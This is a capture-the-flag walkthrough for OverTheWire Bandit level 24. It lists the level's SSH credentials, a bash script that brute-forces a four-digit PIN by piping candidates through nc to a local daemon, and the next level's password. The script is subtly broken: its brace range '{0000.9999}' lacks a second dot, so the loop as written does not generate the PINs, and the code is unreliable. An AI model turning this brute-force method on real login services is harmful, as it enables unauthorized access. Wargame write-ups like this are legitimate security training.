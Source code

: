 # Bandit Level 24 → Level 25
(Updated: 4 August 2025)

## Credentials
- **Username:** `bandit24`
- **Password:** `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

## Connection
```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

## Hints & Commands Learned
- cat
- vim
- mktemp

## Steps to Solve
1. Step 1 – Use `ssh` to get access to OverTheWire labs.
2. Step 2 - Use `mktemp -d` to create temp directory to work with.
3. Step 3 - Move to that temp directory.
4. Step 4 - Use `vim create_possibilities` to create a file containing possibilities to get the password.
5. Step 5 - Add content for `create_possibilities`: 
```
#!/bin/bash

for i in {0000.9999}
do
echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> possibilities.txt
done
```
6. Step 6 - Change permission for `create_possibilities` and run it.
```
chmod +x create_possibilities
./create_possibilities
```
7. Step 7 - Use `cat possibilities.txt | nc localhost 30002 > result.txt` to get the password in file `result.txt`.

## Next Level Password
`iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`